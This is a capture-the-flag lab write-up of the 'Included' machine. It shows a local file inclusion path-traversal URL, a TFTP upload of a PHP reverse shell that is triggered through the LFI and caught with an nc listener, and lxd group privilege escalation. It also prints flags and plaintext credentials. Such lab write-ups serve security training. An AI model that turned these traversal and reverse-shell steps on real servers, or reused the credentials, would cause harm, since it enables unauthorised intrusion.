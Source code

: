 # Starting Point - Included

## Enumeration

```
rustscan 10.10.10.55 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.10.55/?file=index.php
```
So apparently only a single port is open. It's exposing an Apache webserver. Let's take a look at it.

### Examining Port 80 - Apache Server

![](pics/website.png)

Looking at the URL and having the name of the challenge in mind (`Included`), an experienced web penetration tester might directly think of Local File Inclusion (LFI). 

And indeed! Changing the URL to 
```
http://10.10.10.55/?file=../../../../../../../../etc/passwd
```
reveals the `/etc/passwd` file of the server.

![](pics/etc_passwd.png)

Now we check if we can also access `/proc/self/environ`. This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there. If we can access it, then we can easily create a reverse shell by injecting php code as e.g. the User-Agent in our request to the server (=Proc Environ Injection). Unfortunately, we cannot access it.

Another possibility would be to access `/var/log/apache2/access.log` after we sent a request to the website with PHP code as file parameter. The PHP code would then be executed, when loading the log file (=Log Poisoning). However, that's also not possible. Therefore, we need another technique.

A blog article with details about the various techniques can be found [here](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1).

I was pretty much stuck at this point. So I went through all the enumeration steps again. Thereby, I noticed, that `rustscan` does not support UDP port scanning at the time I'm writing this (https://github.com/RustScan/RustScan/issues/22).

Therefore, I ran the nmap scan again, but this time with a UDP scan:

```
sudo nmap -sU 10.10.10.55

PORT   STATE         SERVICE
69/udp open|filtered tftp
```

That's perfect for our LFI! We can now upload files to `/var/lib/tftpboot` (which is the default location), due to the misconfigured TFTP service (--create, -c
Allow new files to be created. By default, tftpd will only allow upload of files that already exist. Files are created with default permissions allowing anyone to read or write them, unless the --permissive or --umask options are specified.)

So now we can upload a php file that contains code for a reverse shell to our machine. Afterwards, we will execute the file by loading it with our LFI vulnerability.

For the PHP Shell, we use the Shell from Pentestmonkey (which is pretty much the standard when it comes to PHP reverse shells). We upload it with

```
tftp 10.10.10.15

put shell.php
```

Now start the listener `nc -lvpn 4444` and include the file by accessing following page: 

```
http://10.10.10.55/?file=../../../../../var/lib/tftpboot/shell.php
```

![](pics/reverse_shell.png)

## Exploitation

After several hours of research, I again had to take a look at the writeup, as I could not find any vulnerability on the system. And indeed! There is no vulnerability. The writeup simply says "The password Sheffield19 found in the previous can be used to switch to mike"... Like seriously, come on... Again one of those "we found the password in any of the previous machines for a completely unrelated user. It's obvious that you should use this password here as well". **FACEPALM** But w/e....

Now that we are user `mike`, we can look for a way to escalate our privileges. But first let's retrieve the user flag: `a56ef91d70cfbf2cdb8f454c006935a1`

Running the command `id`, we see that mike is in the group `lxc`. Following [this article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation), on how to obtain root privileges by abusing the `security.privileged=true` feature of lxc, we get root accces.

## Post-Exploitation
In the root directory there are two files:
  - root.txt: `c693d9c7499d9f572ee375d4c14c7bcf`
  - login.sql: `Daniel:>SNDv*2wzLWf` (credentials for another machine)